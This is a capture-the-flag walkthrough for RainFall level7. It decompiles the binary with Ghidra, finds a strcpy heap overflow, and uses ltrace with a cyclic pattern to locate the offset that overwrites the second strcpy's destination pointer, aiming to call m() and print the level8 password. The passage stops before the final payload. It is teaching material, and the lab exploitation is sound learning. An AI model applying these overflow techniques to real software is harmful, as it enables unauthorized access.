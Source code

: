 ## Basic analysis
~~~shell
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 42
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 42 42
~~
~~~
OK, so binary refuses to talk to us until there are two arguments passed. Let's examine with **Ghidra** tool.
~~~C
undefined4 main(undefined4 param_1,int param_2)
{
  undefined4 *puVar1;
  void *pvVar2;
  undefined4 *puVar3;
  FILE *__stream;
  
  puVar1 = (undefined4 *)malloc(8);
  *puVar1 = 1;
  pvVar2 = malloc(8);
  puVar1[1] = pvVar2;
  puVar3 = (undefined4 *)malloc(8);
  *puVar3 = 2;
  pvVar2 = malloc(8);
  puVar3[1] = pvVar2;
  strcpy((char *)puVar1[1],*(char **)(param_2 + 4));
  strcpy((char *)puVar3[1],*(char **)(param_2 + 8));
  __stream = fopen("/home/user/level8/.pass","r");
  fgets(c,0x44,__stream);
  puts("~~");
  return 0;
}
~~~
It allocates some memory for parameters, but the main part is the file stream, which is obvisously read into the variable **c**, which is not used here. Let's dig further...until we find the 
**m()** function that is printing the c variable (also doe some other useless stuff..).
~~~C
void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)
{
  time_t param2;
  
  param2 = time((time_t *)0x0);
  printf("%s - %d\n",c,param2);
  return;
}
~~~
We therefore need to run m().

## Buffer overflow

We will use vulnerable strcpy for this, this time it will be a little more complex. We can try to run the binary with **ltrace** to see what library functions are being called during the runtime and with what arguments...
~~~shell
level7@RainFall:~$ ltrace ./level7 42 42
__libc_start_main(0x8048521, 3, 0xbffff7e4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                        = 0x0804a008
malloc(8)                                        = 0x0804a018
malloc(8)                                        = 0x0804a028
malloc(8)                                        = 0x0804a038
strcpy(0x0804a018, "42")                         = 0x0804a018
strcpy(0x0804a038, "42")                         = 0x0804a038
fopen("/home/user/level8/.pass", "r")            = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
~~~
As previously seen in the Ghidra analysis, program calls malloc four times, allocating the memory for arguments, than uses strcpy to copy them to this space. 

Now, lets try to overflow the argv[1] using **Wiremask** pattern generator:
~~~shell
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
__libc_start_main(0x8048521, 2, 0xbffff784, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                        = 0x0804a008
malloc(8)                                        = 0x0804a018
malloc(8)                                        = 0x0804a028
malloc(8)                                        = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
~~~
Here, we can observe, that it overflows at the offset of 20 - **rewriting** the dest arg of the second strcpy. 


